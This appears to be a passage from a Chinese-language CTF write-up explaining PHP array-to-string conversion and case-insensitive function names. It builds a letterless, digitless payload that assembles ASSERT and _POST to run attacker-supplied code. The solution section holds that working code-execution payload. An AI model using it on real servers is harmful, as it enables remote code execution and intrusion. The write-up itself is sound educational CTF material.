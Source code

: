 ```php
$a = array(0, 1, 2);
echo $a[0];
//输出0
#####
$a = [0, 1, 2];
echo $a[0];
//输出0
```

2、PHP 数组

```php
$a = [0, 1, 2]; //或$a=array(0, 1, 2);
echo $a."\n";
echo $a[0];
/*输出:
Array
0
并抛出错误"Array to string conversion"（数组转字符串）
故可知，将数组赋予变量，该变量将保存数组转字符串的结果"Array"，变量+下标将保存数组内的值
*/
```

3、PHP 函数不区分大小写

```php
EVAL("echo 1;");
//输出1
```

###### 题解

- 构造 payload：

  ```php
  $_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
  ```

  url 编码后再传入：

  ```
  ```